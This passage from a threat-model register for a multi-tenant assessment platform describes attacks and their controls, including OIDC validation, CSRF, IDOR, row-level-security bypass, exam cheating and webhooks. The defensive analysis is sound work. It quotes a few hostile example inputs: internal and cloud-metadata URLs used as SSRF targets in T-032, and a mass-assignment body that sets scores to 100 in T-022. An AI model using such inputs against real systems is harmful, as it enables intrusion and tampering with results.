**T-013 · Collab service · S · WebSocket ticket reuse or sharing**
*Scenario.* A ticket issued for an interview session is copied and used to open a second connection — an observer watching the candidate's live coding, or the sitter from T-012 connecting alongside.
*Likelihood* medium · *Impact* medium · *Residual* low.
*Existing control.* [`03-API-spec.md`](03-API-spec.md) §1 and [`02-HLD.md`](02-HLD.md) §7: WebSocket tickets are separate from session credentials, short-lived (60 seconds) and single-use. `session_participants` records who is in the room with a `CHECK (num_nonnulls(user_id, candidate_id) = 1)` so every participant resolves to exactly one identity.
*Residual reasoning.* Single-use is the control, and it must be enforced atomically in Valkey — a check-then-delete race under reconnection storms is how single-use quietly becomes multi-use.
*Action.* `H-148` (proposed) — ticket redemption is a single atomic Valkey operation; the collab server rejects a second connection for the same participant identity and writes a `session_events` row when it does, so the interviewer sees the attempt.

### 5.4 Staff authentication and session — TB-4

**T-014 · API / staff auth · S · Session fixation**
*Scenario.* An attacker plants a known session identifier in a staff user's browser, waits for them to log in, and finds the same identifier now authenticated.
*Likelihood* low · *Impact* high · *Residual* low.
*Existing control.* Better Auth is the chosen session library, which regenerates the session on authentication. The staff and candidate authentication domains are separate and must not share credentials ([`03-API-spec.md`](03-API-spec.md) §1), so a candidate-side cookie cannot become a staff session.
*Action.* `H-149` **built 2026-09-20** — the session cookie is `__Host-assaybank.session_token`: `HttpOnly`, `Secure`, `SameSite=Lax`, `Path=/`, no `Domain`. `__Host-` rather than `__Secure-` is the part that matters and the part the library does not offer: `__Secure-` promises only that the cookie was set over https, which a sibling subdomain of the deployment's own site can also do, and a subdomain that can write the session cookie can force a victim into the attacker's account. `apps/api/src/auth/cookie-names.ts` holds the names and the argument. The identifier is regenerated on login and on privilege change, and logout invalidates server-side as well as clearing the cookie. `apps/api/test/integration/staff-identity.test.ts` asserts the attributes together — a browser refuses a `__Host-` cookie unless `Secure`, `Path=/` and the absence of `Domain` all hold, so testing one without the others would assert a prefix that is not in force.

**T-015 · API / staff auth · S · OIDC assertion accepted without full validation**
*Scenario.* The `GET /auth/oidc/callback` handler validates the token signature but not the issuer, audience, nonce or expiry, so a token minted by a different tenant of the same IdP — or replayed from an unrelated application — logs the holder in as a staff user.
*Likelihood* low · *Impact* high · *Residual* low.
*Existing control.* `OIDC_ISSUER`, `OIDC_CLIENT_ID` and `OIDC_CLIENT_SECRET` are canonical environment variables validated at boot by `packages/config`, which fails fast if they are absent — so the values needed for validation are guaranteed present.
*Action.* `H-150` **built 2026-09-21** — and the building of it found that the flow had never worked. `POST /auth/oidc/start` read only the authorisation URL out of `signInSocial`, discarding the signed `state` cookie Better Auth sets there, and the callback refuses a flow without it. Every OIDC sign-in had been failing since the route was written, and the existing tests could not see it: they asserted refusals, and a refusal is what they got, for a reason none of them named. See [`17-engineering-standards.md`](17-engineering-standards.md) §8a.

What is verified now, proven in `apps/api/test/integration/oidc-callback.test.ts` by presenting an assertion that is correct in every respect but one: the **signature** against the discovery JWKS, the **issuer**, the **audience**, the **`nonce`** bound to this flow's `state`, **`exp`** and **`nbf`**, the **PKCE verifier** on the wire to the token endpoint, and the `state` itself — unknown, and already spent. An address the organisation does not know signs nobody in and provisions no row.

Two downgrades were closed in the same change, both of the same shape: a check that is not bypassed but never reached. `requireIdTokenVerification` makes a discovery document with no `jwks_uri` produce **no provider** rather than one that silently verifies nothing and takes identity from userinfo. And a `getUserInfo` hook refuses a token exchange that returns no `id_token` at all, because the library verifies an assertion only `if (oauthTokens.idToken && provider.idToken)` and otherwise falls through to an unsigned userinfo document fetched with an access token the same party issued.

*Residual reasoning.* `iat` skew is named in the row and is **not** separately enforced: `jose` validates `exp` and `nbf`, and the library exposes no `maxTokenAge`. The gap is narrow here because the assertion arrives over a server-to-server exchange this API initiated, bound to a single-use `state` and a `nonce` minted for that flow — an old token cannot be replayed into it without the code and the verifier. Worth revisiting if an `id_token`-POST flow is ever added, where the binding is weaker and token age does the work.

**T-016 · API / staff auth · S · Compromised staff session used for bulk extraction**
*Scenario.* A phished recruiter's session is used at 03:00 to page through `GET /questions`, run `GET /questions/export`, and pull `POST /org/export` — the entire bank and candidate list, through endpoints working exactly as designed.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* Permissions are explicit per endpoint ([`03-API-spec.md`](03-API-spec.md) §1) and `report.export` is a distinct permission key in the schema seed, so export is not implied by read. Staff API rate limits are 600 per minute per user. `audit_log` records privileged actions with `ip` and `actor_user_id`.
*Residual reasoning.* Rate limits sized for a working recruiter are also enough to exfiltrate a bank overnight. Detection, not prevention, is the realistic control — which makes §9 load-bearing.
*Action.* `H-151` (proposed) — bulk export is asynchronous, audited, notifies the org's admins on completion, and is rate-limited separately from the general staff budget; volume anomaly detections per §9. `H-152` (proposed) — support enforced MFA or IdP-only login per org, configurable in `/org/settings`.

**T-017 · Staff console · T · CSRF on staff mutations**
*Scenario.* A staff user visits a hostile page which submits a cross-origin `POST /user-roles` or `PATCH /attempts/{id}` using their ambient session cookie.
*Likelihood* medium · *Impact* high · *Residual* low.
*Existing control.* `CORS_ALLOWED_ORIGINS` is a canonical environment variable, so the allowed origin set is configuration validated at boot rather than a wildcard in code. `SameSite` cookie attributes (T-014) block the classic form-post vector.
*Residual reasoning.* `SameSite=Lax` is not sufficient alone — it does not cover every request shape, and a permissive CORS configuration in a hurry undoes it.
*Action.* `H-153` **built 2026-09-20** — both halves, in `apps/api/src/csrf.ts`. An `onRequest` check refuses any cookie-bearing state change whose `Origin` is not in `CORS_ALLOWED_ORIGINS` or whose `Sec-Fetch-Site` is cross-site; CORS is configured from the same list with credentials for exactly those origins and never `*`. And a signed double-submit token — `X-Csrf-Token` echoing `__Host-assaybank.csrf_token`, minted per session by `POST /auth/login` and re-minted by `GET /auth/me`, with an HMAC over the session it belongs to so it is not transferable between sessions.

Both, because each covers the other's failure. Origin checking rests entirely on headers the browser volunteers, and disappears if one stops sending them or a proxy strips them. A double-submit token rests on the attacker being unable to write the victim's cookies, which is what `__Host-` (T-014) buys and what an unsigned token would lose the moment it did not hold. `POST /auth/login` and `POST /auth/oidc/start` are exempt from the token half and only from that half: they establish a credential rather than spend one, and somebody holding an expired session cookie has no token — demanding one there would lock out exactly the people trying to sign in. The decision table is exercised directly in `apps/api/src/csrf.test.ts` and end to end in the integration suite, and both were checked by mutation: disabling the token branch kills thirteen tests, and making the signature always verify kills seven.

### 5.5 API, data access and tenancy — TB-5, TB-7

**T-018 · API · I/E · IDOR across attempt ids, answer ids and submission ids**
*Scenario.* A candidate holding a valid attempt token calls `PATCH /attempt/answers/{aq_id}` with an `aq_id` belonging to a different attempt — theirs from a previous round, or another candidate's guessed from a leaked identifier — and reads or writes it. The same shape applies to `GET /attempt/submissions/{id}` and, cross-organisation, to any staff route taking an id.
*Likelihood* high — the first thing a determined candidate tries · *Impact* high · *Residual* low.
*Existing control.* Three layers. Identifiers are UUIDv4 ([`03-API-spec.md`](03-API-spec.md) §2), so they are not guessable. The attempt token is scoped to exactly one attempt ([`03-API-spec.md`](03-API-spec.md) §1), so cross-attempt access must be rejected by authorisation, not by obscurity. RLS with `app.current_org` ([ADR-010](04-ADRs.md#adr-010--row-level-security-for-tenant-isolation)) makes cross-organisation access return zero rows even when the application logic is wrong.
*Residual reasoning.* Low, because RLS provides a second independent layer for the cross-org case. The *within-org, cross-attempt* case has no database backstop — `attempt_questions` has no `org_id` column and is reachable only through `attempts` — so it depends entirely on application-layer authorisation.
*Action.* `H-154` (proposed) — every candidate-facing route resolves the target row through the token's attempt id in the same query (`... JOIN attempt_questions aq ON aq.id = $1 AND aq.attempt_id = $2`), never by fetching then checking; an authorisation matrix test enumerates each candidate route against an id belonging to another attempt and asserts `not_found`, never `forbidden`, so the response is not an existence oracle.

**T-019 · Worker → DB · E · RLS bypass through the background job's elevated role**
*Scenario.* The deadline sweep, the nightly stats recompute and the grading workers connect as `DATABASE_JOB_ROLE`, which must see across organisations to do its work. A grading job whose `org_id` filter is derived from the job payload rather than from the submission row processes — or writes — a row in the wrong tenant, and RLS is not there to stop it because this role exists precisely to bypass it.
*Likelihood* medium · *Impact* high · *Residual* **high**.
*Existing control.* [ADR-010](04-ADRs.md#adr-010--row-level-security-for-tenant-isolation) names this explicitly as a cost of the decision: "background jobs need an explicit elevated role with its own audit trail". `DATABASE_APP_ROLE` and `DATABASE_JOB_ROLE` are separate canonical environment variables, so the separation is structural. `H-016` covers the RLS policies and the elevated role; `H-017` covers negative tests.
*Residual reasoning.* High, and it is the single largest tenancy risk in the design. Every other path has RLS as a backstop; this one is the backstop's exception, and it is also where the least-reviewed code tends to live.
*Action.* `H-155` (proposed) — the job role is granted per-table, write-only where possible, and every job that touches tenant data must either set `app.current_org` for the duration (preferred, keeping RLS active) or be on an explicit allow list of cross-tenant jobs with a documented justification. A lint rule fails CI on a raw `DATABASE_JOB_ROLE` connection outside `apps/worker`. `H-156` (proposed) — extend the `H-017` negative-test suite to cover the job role: a job processing a submission from org A must not read or write any org B row, asserted per job type.

**T-020 · API · T · SQL injection through search and filter parameters**
*Scenario.* `GET /questions?q=` feeds a trigram search, `GET /audit-log?actor=&action=&from=&to=` feeds a dynamic `WHERE`, and `GET /candidates?q=` feeds a name search. One of them is built by string concatenation because the parameter is a sort direction or a column name that a bound parameter cannot express.
*Likelihood* medium · *Impact* high · *Residual* low.
*Existing control.* Drizzle ORM parameterises by default. [`03-API-spec.md`](03-API-spec.md) §2 states that filtering uses explicit query params, never a generic query language — which removes the entire class of "let the client express a predicate" problems. The `gin_trgm_ops` index on `question_versions.prompt_md` means search is a parameterisable `%` operator, not a constructed clause.
*Residual reasoning.* Low for values, and the residual concentrates on identifiers: sort columns, sort direction and cursor decoding.
*Action.* `H-157` (proposed) — all filter and sort parameters are zod enums in `packages/contracts` resolving to a fixed allow list of column names; raw SQL fragments are permitted only through Drizzle's `sql` template with bound parameters, enforced by a lint rule; cursors are opaque, signed and validated before decoding.

**T-021 · API / admin · E · Staff user escalates by editing a custom role's permissions**
*Scenario.* A recruiter with `org.admin` — or with a custom role that was carelessly granted role-editing rights — calls `POST /user-roles` to create a role holding `attempt.grade` and `question.read`, assigns it to themselves, and now has bank access and score-override rights that nobody granted them.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* The schema models roles as `user_roles` → `user_role_permissions` → `permissions` with permissions as a fixed seeded set, so a role cannot invent a permission that does not exist. `PATCH /users/{id}/roles` and `POST /user-roles` are admin endpoints requiring `org.admin`. `audit_log` captures `before` and `after` as `jsonb`, so the change is recorded.
*Residual reasoning.* Medium. The permission set is closed, which is good; but nothing currently prevents self-escalation by an admin, and nothing forces anyone to read the audit entry.
*Action.* `H-158` (proposed) — a user cannot grant themselves a permission they do not hold, and cannot assign to their own account a role they just modified within a short window; role and permission changes emit an `attempt.flagged`-class notification to all org admins and are surfaced in the admin UI as a standing feed rather than buried in `/audit-log`. System roles are immutable.

**T-022 · API · T · Mass assignment on `PATCH` endpoints**
*Scenario.* `PATCH /attempt/answers/{aq_id}` accepts the request body into an update, and the body contains `{"final_score": 100, "auto_score": 100, "graded_by": null}`. The endpoint was written to accept `selected_option_ids`, `text_answer` and `seconds_spent`; it accepted the rest because the update was built from the parsed object.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* [`03-API-spec.md`](03-API-spec.md) §2 makes `PATCH` a partial update and lists the accepted fields per endpoint; `packages/contracts` is named as the single source of API truth with zod schemas, which is the mechanism that makes the field list enforceable rather than documentary.
*Residual reasoning.* Medium until the strictness is proven. zod's default object parsing strips unknown keys but does not reject them, and a schema written with `.passthrough()` for convenience reopens the hole silently.
*Action.* `H-159` (proposed) — every request schema in `packages/contracts` is `.strict()`, rejecting unknown keys with `validation_failed`; `.passthrough()` is banned by lint; the database update is constructed from an explicit field list, never from the parsed body by spread. A test posts every scoring and status column to every candidate-facing `PATCH` and asserts rejection.

**T-023 · API serialisation · I · Over-permissive serialisation leaks `is_correct` or `solution_code`**
*Scenario.* `GET /attempt/questions/{ordinal}` returns the question version with its options, and the option serialiser is the same one the authoring UI uses, so `is_correct` ships to the candidate. Or a coding question's response includes the expanded `coding_specs` row and with it `solution_code`. Either way the candidate reads the answers out of the network tab.
*Likelihood* medium · *Impact* **critical — this is the crown-jewel asset in §3** · *Residual* medium.
*Existing control.* [`02-HLD.md`](02-HLD.md) §7 states the requirement and the test: "Reference solutions and correct-answer flags stripped in the serialisation layer, with a test asserting they never appear in candidate-facing responses." The schema comments `solution_code` as "reference solutions, never sent to client". The separate candidate bundle means the client has no code that would render these fields, which limits accidental display but not accidental transmission.
*Residual reasoning.* Medium and durable. This is a permanent tripwire, not a one-time fix: every new candidate-facing field is a fresh opportunity to leak, and the leak is silent.
*Action.* `H-160` (proposed) — candidate-facing responses are built by explicit allow-list serialisers in `packages/contracts` (never by omitting fields from a domain object), and a property test walks every candidate-facing response body and SSE frame asserting the absence of `is_correct`, `solution_code`, `expected_stdout`, `pattern`, `checker_code` and `fixture_sql` by key *and* by value. This test is a release gate, listed in [`06-testing-strategy.md`](06-testing-strategy.md) and in [`../project/DEFINITION-OF-DONE.md`](../project/DEFINITION-OF-DONE.md).

**T-024 · API / SSE · I · Hidden-case content leaks through submission progress frames**
*Scenario.* `GET /attempt/submissions/{id}/stream` emits progress events as each case completes. The progress frame is generated from the internal per-case result object and carries the case's stdin, or its label leaks the input (`"n = 1000000, negative"`), or the ordering reveals which cases are hidden versus sample.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* [`03-API-spec.md`](03-API-spec.md) §7 defines the disclosure table by case type, and it applies to the stream as much as to the final result — but the stream is a second code path and is the one most likely to be written quickly.
*Residual reasoning.* SSE frames are the classic place where a filter is applied to the final response and forgotten on the incremental one.
*Action.* Covered by `H-160` (proposed), which must include SSE frames explicitly; plus `H-161` (proposed) — hidden cases in candidate-facing contexts are labelled generically (`Hidden case 3`), with the author-supplied `test_cases.label` shown only to staff, and progress frames carry `{ordinal, passed}` and nothing else.

**T-041 · API → DB · T/I · Cross-tenant references that RLS does not check**
*Scenario.* Two shapes, both found in built code on 2026-09-17 and both fixed the same day. (1) A foreign key is checked by PostgreSQL without row-level security. `question_skills` and `job_role_skills` are policed through the question and the role, so `PUT /questions/{id}/skills` naming *another organisation's* skill id passed both the policy and the key, tagged this tenant's question with it, and exposed that skill's name through the coverage report. (2) `skills` and `user_roles` hold global rows (`org_id IS NULL`) shared by every tenant, under one policy per table whose `USING` admitted global rows for every command. A tenant could `DELETE` a global skill — the cascade then stripped it from every organisation's questions and roles — or `UPDATE ... SET org_id = <own org>` to claim it, which `WITH CHECK` accepted because the new row was the tenant's own.
*Likelihood* medium — reachable by any staff user with `question.write` · *Impact* high — tampering with every tenant's taxonomy and role catalogue · *Residual* low.
*Existing control.* (1) Every skill id in a request body is resolved under RLS before it is written (`invisibleSkillIds`), and one the tenant cannot read is refused as `422 not_found` — never `forbidden`, which would confirm it exists. (2) Migration `0008_global_rows_read_only` splits each policy per command: `SELECT` admits global rows, `INSERT`, `UPDATE` and `DELETE` do not. Both are proven by tests that failed before the fix: `apps/api/test/integration/taxonomy.test.ts` (and a mutation run with the check removed), and generated global-row cases in `packages/db/tests/rls.test.ts`.
*Residual reasoning.* Low for the tables that exist. The general shape is the risk: any future table policed through a parent, with a foreign key to a *different* tenant-owned table, reopens (1). The generated RLS suite compares tenant against tenant and does not see it.
*Action.* Every route writing a reference to a tenant-owned row resolves that reference under RLS first; the rule is in [`17-engineering-standards.md`](17-engineering-standards.md) §4. Any new nullable-`org_id` table must add a global seed to the RLS suite, which fails until it does.

**T-042 · API / staff auth · S · Staff account enumeration through login and password reset**
*Scenario.* An attacker posts login attempts for a list of addresses at a customer's tenant. A distinguishable response — a different error code, a different message, or simply a faster rejection because no password hash was verified — tells them which addresses are real staff accounts, which is the reconnaissance step for T-016 and for a phishing campaign against named employees. Password reset is the same oracle with a friendlier message.
*Likelihood* medium · *Impact* medium · *Residual* low.
*Existing control.* Built before this entry existed, which is how the entry came to be written: `packages/auth/src/password.ts` verifies against a dummy hash when no account matches, so the work done is the same either way, and `apps/api/src/auth/routes.ts` answers one `unauthenticated` envelope with one message for every failure. `staff-identity.test.ts` asserts the two responses are byte-identical. The login rate limiter of `src/rate-limit.ts` bounds the attempt rate.
*Residual reasoning.* Low for login. The reset path is not built, and it is the easier oracle of the two to get wrong, because the helpful version of that screen tells the user whether to check their inbox.
*Action.* `H-176` — keep login uniform and extend the same rule to password reset when it ships, with the byte-identical assertion applied to both.

**T-043 · Local stack → DB · I · The container bootstrap builds tables the migrations' isolation model does not cover**
*Scenario.* `infra/postgres/init/` builds a developer's database at container start from the documented DDL, and `packages/db/migrations/` is the authoritative schema that runs over the top. The two can disagree, and where they disagree in the direction of *less* isolation the result is a database that looks like production and is not. Two shapes, both found on 2026-09-20 by running the documented path on a clean machine. (1) Migration 0010 added `bank_jobs` with a policy; `03-rls.sql` was never updated, so container init created the table with no row-level security and one organisation could read another's import and export jobs. (2) `04-partitions.sql` creates the monthly partitions of `session_events` and `proctor_events`, and **a partition does not inherit its parent's row-level security** — PostgreSQL applies the parent's policies to rows reached through the parent and the partition's own policies when the partition is named directly, so `SELECT * FROM session_events_y2026m09` went round the policy entirely for anyone who could write a name that is generated by a fixed rule.
*Likelihood* medium — it is the default local database, and nothing in CI runs container init · *Impact* high — cross-tenant read of job and event data · *Residual* low.
*Existing control.* The completeness check in migration 0002 and in `03-rls.sql` refuses to proceed when a table in `public` has neither a policy nor an exemption, and it is what caught both: Postgres counts a partition as a table, so the check saw the partitions even though no list in TypeScript knows their names. `03-rls.sql` now carries `bank_jobs`, and `ensure_event_partition()` enables row-level security on every partition it creates, with no policy — which denies a direct read and leaves access through the parent unchanged, verified against the database rather than assumed.
*Residual reasoning.* Low, and lower than it was: `packages/db/src/bootstrap-drift.test.ts` now asserts statically that every table the bootstrap creates is covered by `03-rls.sql`, so the `bank_jobs` shape cannot recur silently. The partition shape has no static guard — the names do not exist until the SQL runs — and its guard is the completeness check, which fails the migration rather than the build.
*Action.* None outstanding. The general lesson is recorded in [`17-engineering-standards.md`](17-engineering-standards.md) §7b: a path CI does not take is a path that is only ever tested by the person least able to explain the failure.

*Recorded 2026-09-20.* Found by running `make up && make migrate` on a clean machine, which had been broken in three ways while every test was green.

*Recorded 2026-09-20.* The code carried a defence with no threat behind it, found by following a task reference that pointed at an unrelated task. The register had enumeration only for candidates (T-011).

### 5.6 Assessment integrity — TB-1

**T-025 · Candidate app · AI · Client clock manipulation to extend the attempt**
*Scenario.* The candidate sets their system clock back an hour, or patches the countdown in devtools, and keeps working past the deadline.
*Likelihood* high · *Impact* medium · *Residual* low.
*Existing control.* [ADR-006](04-ADRs.md#adr-006--the-server-owns-the-clock) is unambiguous: the server owns the clock. `attempts.deadline_at` is computed at start and stored; `server_time` is returned on every call and the client displays a countdown derived from it, never trusting the local clock ([`03-API-spec.md`](03-API-spec.md) §7). `POST /attempt/heartbeat` returns `seconds_remaining` from the server.
*Residual reasoning.* Low. The attack targets a display, and the display is not the authority.
*Action.* `H-162` (proposed) — an integration test that submits with a client clock skewed by ±6 hours and asserts identical server behaviour; the candidate UI re-syncs its countdown from `server_time` on every response and shows a reconnecting state rather than a frozen timer when heartbeats fail.

**T-026 · API / autosave · T · Autosave replay overwrites a later answer**
*Scenario.* Two autosave requests for the same answer are in flight on a flaky campus connection. The earlier one arrives second — or a determined candidate captures an early autosave and replays it after the deadline-adjacent final answer — and the stored answer reverts to the earlier content. In the benign case the candidate loses work; in the malicious case the candidate chooses which version is graded after seeing how the exam went.
*Likelihood* medium · *Impact* medium · *Residual* medium.
*Existing control.* Partial. [`03-API-spec.md`](03-API-spec.md) §2 provides `Idempotency-Key` on mutating endpoints, which deduplicates a retry but does not order two distinct writes. The autosave rate limit is 60 per minute per attempt. The `answers` table has one row per `attempt_question_id` (`UNIQUE`), so there is no history to reconstruct from — last write wins, whatever "last" means.
*Residual reasoning.* Medium. Note the availability face of this threat is the one [`02-HLD.md`](02-HLD.md) §8 already calls a page-immediately alert ("autosave failure rate above zero — candidates losing work"). Ordering is the missing piece.
*Action.* `H-163` (proposed) — autosave carries a monotonic client sequence number per answer; the server applies a write only if the sequence exceeds the stored one, returning `conflict` otherwise, and the applied sequence is returned so the client can detect divergence. Rejected out-of-order writes increment a metric, since a spike is either a network problem or a replay attempt.

**T-027 · API / attempts · AI · Submitting after the deadline**
*Scenario.* The candidate holds the final `POST /attempt/submit` until well past `deadline_at`, or keeps autosaving after it, relying on the server to accept whatever arrives.
*Likelihood* high · *Impact* medium · *Residual* low.
*Existing control.* [`03-API-spec.md`](03-API-spec.md) §8: `expired` is set by a scheduled sweep, not by the client, and whatever was autosaved is graded. `attempt_expired` is a defined error code with `deadline_at` in its details. [ADR-006](04-ADRs.md#adr-006--the-server-owns-the-clock) puts the authority server-side. The state machine makes `submitted` unreachable from `expired`.
*Residual reasoning.* Low, with one design subtlety: the sweep runs periodically, so there is a window where an attempt is past its deadline but not yet marked `expired`. Every write path must check `deadline_at` directly, not just the status column, or the window becomes exploitable.
*Action.* `H-164` (proposed) — a transactional guard on every candidate write (`WHERE deadline_at > now()` on the attempt row, including accommodation extra time), independent of the sweep; tests assert that a write one second past the deadline is rejected even when the sweep has not yet run, and that accommodations from `invitations.accommodations.extra_time_pct` are honoured in that guard.

**T-028 · API / attempts · AI · Re-rolling the randomised question draw**
*Scenario.* The candidate starts the attempt, sees a hard draw, clears cookies or closes the tab, and redeems the invitation again hoping for a different set — repeating until the questions are easy, and incidentally seeing a large slice of the bank on the way.
*Likelihood* high · *Impact* high · *Residual* low.
*Existing control.* [ADR-004](04-ADRs.md#adr-004--materialise-the-served-question-set-per-attempt) is the whole answer: the served set is materialised into `attempt_questions` at start, including `option_order` — the shuffle actually shown — and never recomputed. `invitations.max_attempts` defaults to 1. The state machine ([`03-API-spec.md`](03-API-spec.md) §8) has no transition from `in_progress` back to `created`.
*Residual reasoning.* Low, and this is the clearest example of a security property arriving free from a correctness decision. ADR-004 was written for re-gradability and dispute resolution; it also makes re-rolling structurally impossible.
*Action.* `H-165` (proposed) — `POST /attempt/start` is idempotent per attempt and returns the existing materialised set on repeat; redeeming an invitation whose attempt is already `in_progress` resumes that attempt rather than creating a second one; the redeem count is checked against `max_attempts` in the same transaction that creates the attempt, so concurrent redemptions cannot both succeed.

**T-029 · Question bank · AI · Exposure farming to map the bank**
*Scenario.* A coaching business, or a competitor, creates many candidate identities against an open assessment — or recruits real candidates to report what they saw — and assembles the bank question by question across hundreds of attempts. No single attempt is anomalous; the aggregate is the attack.
*Likelihood* medium · *Impact* **critical** · *Residual* **high**.
*Existing control.* The instrumentation exists by design: `attempt_questions` is indexed on `question_version_id` with the comment "exposure counting", FR-4 requires exposure tracking per question version with a configurable retirement threshold, and [ADR-004](04-ADRs.md#adr-004--materialise-the-served-question-set-per-attempt) notes the resulting ability "to detect a leaked question by correlating scores against which candidates received it". `section_rules.exclude_seen_days` limits repeat exposure to the same candidate.
*Residual reasoning.* High, because measurement is not mitigation. Exposure counting tells us which questions have been seen; it does not stop the seeing. The mitigation is retirement, and retirement costs authoring capacity — which makes bank size a security property, not just a product one.
*Action.* `H-166` (proposed) — an exposure dashboard with a per-version threshold alert, a retirement workflow moving a version to `retired` and requiring a replacement before an assessment referencing it can be published, and a correlation report flagging question versions whose `p_value` rises abruptly in `question_stats` — a sudden jump in the proportion answering correctly is the clearest available signal that a question has leaked. Detections in §9.

**T-030 · Candidate device · AI · Screen capture and content exfiltration by the candidate**
*Scenario.* The candidate photographs the screen with a phone, runs a screen recorder, or simply retypes each question into a shared document as they go. The content is on a competitor's forum within the week.
*Likelihood* high · *Impact* **critical** · *Residual* **high — accepted, see §8**.
*Existing control.* Partial and, for non-proctored rounds, nearly nil. `proctor_events` captures `copy`, `paste`, `screenshot`-adjacent signals and `second_screen` where the browser exposes them; Safe Exam Browser in M4 restricts the local environment. [ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions) means none of these can block anything automatically, and [`02-HLD.md`](02-HLD.md) §11 explains why AI proctoring is not being built.
*Residual reasoning.* **This is not fully preventable and we should stop pretending otherwise.** A phone camera pointed at a screen defeats every browser-side control that will ever exist. Any product claiming to prevent it is claiming something false. The honest position: content that a candidate sees is content that can leave, so the real mitigation is on the other side of the problem — exposure tracking (T-029) and question retirement, which assume leakage and bound its useful lifetime rather than trying to stop it.
*Action.* `H-167` (proposed) — candidate-facing copy states plainly that question content is confidential and that exposure is tracked; exposure-driven retirement (`H-166`) is treated as the primary control and resourced accordingly in the authoring budget for every milestone, not as an optional nicety. No engineering effort is spent on screenshot prevention, watermarking of prompts beyond a per-attempt identifier, or any other control whose defeat is a phone camera.

**T-031 · API / bulk · I · Scraping the bank through the import/export endpoints**
*Scenario.* A staff user at a customer organisation — or an attacker holding their session, per T-016 — calls `GET /questions/export?format=json` with no filters and receives the entire bank in one artifact, or pages `GET /questions` at 600 requests per minute until they have it.
*Likelihood* medium · *Impact* **critical** · *Residual* medium.
*Existing control.* `report.export` is a distinct permission from `question.read` in the schema seed. Export is asynchronous and returns a job id ([`03-API-spec.md`](03-API-spec.md) §4), which makes it inherently auditable — there is a job row to record. RLS confines any export to one organisation's rows.
*Residual reasoning.* Medium. Export is a legitimate feature — customers own their content and must be able to leave with it ([`05-licensing-and-compliance.md`](05-licensing-and-compliance.md)) — so the control cannot be prohibition. It has to be visibility and friction.
*Built 2026-09-17.* Export needs `question.write`, not `question.read` — the permission to look at questions one at a time does not grant the bank in one file. The export request (`bank_job.export`, with its filters) and every download of the file (`bank_job.download`, with its size) are audited, and the file stops being served seven days after it was produced (ADR-021). Uploads are bounded at 32 MiB; an uploaded QTI archive is refused past 20,000 entries, 16 MiB per entry or 256 MiB in total, checked from the central directory before inflating and again after; a `DOCTYPE` in any XML is refused.
*Action.* `H-168` (proposed) — every export job writes an `audit_log` row with the filter set and the row count, notifies org admins on completion, is rate-limited to a small number per day per organisation, and embeds a per-export identifier in the artifact so a leaked file can be traced to the job that produced it. Volume anomalies on `GET /questions` paging are detected per §9.

### 5.7 Webhooks and integrations — TB-8

**T-032 · Webhooks · E · SSRF through a customer-supplied webhook URL**
*Scenario.* An org admin registers `http://169.254.169.254/latest/meta-data/` or `http://valkey:6379/` as a webhook endpoint, then calls `POST /webhooks/{id}/test` and reads the response — or the timing, or the error — out of `GET /webhooks/{id}/deliveries`. The API is now a proxy into our own network.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* None specific today. [`03-API-spec.md`](03-API-spec.md) §12 defines the webhook surface without constraining the destination; `H-061` covers building the framework and is the right place to add this.
*Residual reasoning.* Medium, and the delivery log is what turns a blind SSRF into a readable one — which makes the log, a good feature, also the amplifier.
*Action.* `H-143` (proposed, extends `H-061`) — webhook URLs must be `https`, are resolved and validated before connection with a deny list covering loopback, link-local, RFC 1918, RFC 4193, multicast and metadata addresses, re-validated at delivery time to defeat DNS rebinding, connected through a dedicated egress path that cannot reach internal services, with redirects not followed. The delivery log stores the response status and a truncated body only, and the `POST /webhooks/{id}/test` response reports success or a coarse failure class, never the raw response.

**T-033 · Webhooks · I · Webhook secret leakage and signature bypass**
*Scenario.* The signing secret supplied at `POST /webhooks` is echoed back by `GET /webhooks/{id}`, appears in a log line, or is stored in plaintext and read by anyone with database access. Separately, a consumer's verification compares signatures with `==` and is defeated by timing, or accepts an unsigned request because the header was absent rather than wrong.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* [`03-API-spec.md`](03-API-spec.md) §12 specifies HMAC-SHA256 over the raw body in `X-Signature`. `WEBHOOK_SIGNING_SECRET_ROTATION_DAYS` is a canonical environment variable, so rotation is a designed behaviour rather than an afterthought, and `H-061` includes rotation with an overlap window.
*Residual reasoning.* Medium. We control our signing; we do not control the consumer's verification, so the documentation we publish is part of the control surface.
*Action.* `H-169` (proposed, extends `H-061`) — secrets are write-only through the API (never returned after creation, matching the invitation-token rule), encrypted at rest, redacted in logs by the `packages/observability` serialiser, and the signature covers a timestamp as well as the body. The integration documentation in [`09-ats-integration.md`](09-ats-integration.md) specifies constant-time comparison, mandatory signature presence, and a timestamp tolerance.

**T-034 · Webhooks · T · Replay of webhook deliveries**
*Scenario.* An attacker who captures a signed `attempt.finalised` delivery replays it to the customer's ATS repeatedly, or replays an old `attempt.finalised` carrying a stale passing score after the attempt was voided, advancing a candidate in the customer's pipeline.
*Likelihood* medium · *Impact* medium · *Residual* low.
*Existing control.* [`03-API-spec.md`](03-API-spec.md) §12 requires consumers to be idempotent on `event_id`, and delivery is at-least-once with a 24-hour retry window — so consumers must already handle duplicates as a normal condition, not an attack.
*Residual reasoning.* Low, given a timestamped signature (T-033) bounds the replay window and `event_id` deduplication is a stated consumer obligation.
*Action.* Covered by `H-169` (proposed) — the signed timestamp plus a documented tolerance window; [`09-ats-integration.md`](09-ats-integration.md) states the `event_id` deduplication requirement and the tolerance as consumer obligations, with a reference verification snippet.

### 5.8 Object store — TB-9

**T-035 · Object store · I · Pre-signed URL leakage and over-long TTL**
*Scenario.* A pre-signed URL for a session recording is generated with a seven-day expiry, pasted into a shared review document, and remains a working unauthenticated link to candidate video long after the reviewer left the company. Or the URL appears in a `Referer` header, a proxy log, or an OTel span attribute.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* [`02-HLD.md`](02-HLD.md) §3.5 and §7: the object store is accessed only through pre-signed short-lived URLs, and `proctor_media.object_key` is commented "S3/R2 key, never a public URL". `H-078` covers SeaweedFS wiring through short-TTL pre-signed URLs and `H-101` covers proctor media specifically.
*Residual reasoning.* Medium. A pre-signed URL is a bearer credential in a query string, and query strings travel further than anyone intends.
